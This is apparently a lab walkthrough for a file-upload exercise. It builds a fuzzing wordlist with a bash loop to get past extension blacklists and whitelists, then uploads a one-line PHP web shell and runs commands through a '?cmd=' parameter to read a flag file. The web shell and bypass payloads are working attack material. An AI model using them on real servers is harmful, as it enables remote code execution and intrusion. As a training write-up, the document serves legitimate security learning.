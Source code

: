 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

In some cases whitelists may be used to prevent malicious threats for uploading unintended file formats.

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

Lets capture the upload request and fuzz the extension like in the previous exercise.&#x20;

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Lets also add the following php code to ensure it's being executed:

```php
<?php echo "shell test";?>
```

This time, we'll create our own wordlist. We will adapt the bash script from HTB and add two more extensions ending up with a script like this:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Just paste it on your machine and press enter to execute it, and then copy the content to the Intruder's payload configuration and click `Start attack`.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see from the image above, the requests with a 230 length have the message "File successfully uploaded".

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to know if the actual php code was executed. Hide all the columns besides the column "Payload", and copy all it's content to other file so we can have another wordlist.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Go to the main page and open "image" in a new tab.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

It looks we may have found a working payload. And don't need to fuzz it anymore. Now let's modify the POST request.

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

And it was uploaded! Now let's go the previous URL and modify it to `/shell.phar:.jpg?cmd=id`.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

And it worked! Now lets look for the flag.

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Like in the previous sections the flag is under the root directory.

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

And here it is, we found our flag!

